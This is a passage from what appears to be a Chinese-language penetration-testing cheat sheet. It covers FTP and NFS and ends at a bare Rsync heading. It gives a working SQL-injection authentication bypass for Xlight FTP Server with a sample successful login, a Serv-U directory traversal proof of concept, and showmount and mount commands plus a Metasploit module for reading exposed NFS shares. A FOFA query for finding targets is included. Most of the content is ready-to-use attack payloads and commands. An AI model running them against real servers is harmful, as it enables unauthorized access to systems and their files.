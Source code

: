 **Xlight FTP Server < 3.2.1 user 参数 SQL 注入漏洞**
- 描述

    在执行 ODBC 认证过程中 Xlight FTP Server 没有正确地过滤用户所提交的用户名和口令字段,远程攻击者可以用"OR ‘1’=’1’ ;#"替换用户名绕过认证登录到服务器.

- POC | Payload | exp
    ```bash
    220 Xlight FTP Server 3.2 ready...
    User (server-4:(none)) : \' OR \'1\'=\'1\' ;#
    331 Password required for \' OR \'1\'=\'1\' ;#
    Password : type anything
    230 Login OK
    ftp&gt;
    ```

**Serv-U FTP Server 目录遍历漏洞**
- 相关文章
    - [Serv-U FTP Server 0day漏洞分析报告](http://safe.it168.com/a2011/1213/1287/000001287577.shtml)

- POC | Payload | exp
    ```bash
    ls ../windwos
        550 .....

    ls ..:/windows
        150 ....
        ...
        ...
    ```

### NFS

> fofa : protocol="nfs"

**相关文章**
- [针对NFS的渗透测试](https://www.freebuf.com/articles/network/159468.html)

**CVE-1999-0554 目标主机 showmount -e 信息泄露**
- POC | Payload | exp
    ```bash
    showmount -e <目标ip>
    mount -t nfs <目标ip>:/opt/applications/xxx_static_data  /mnt
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    set rhosts <目标ip>
    run
    ```

---

### Rsync
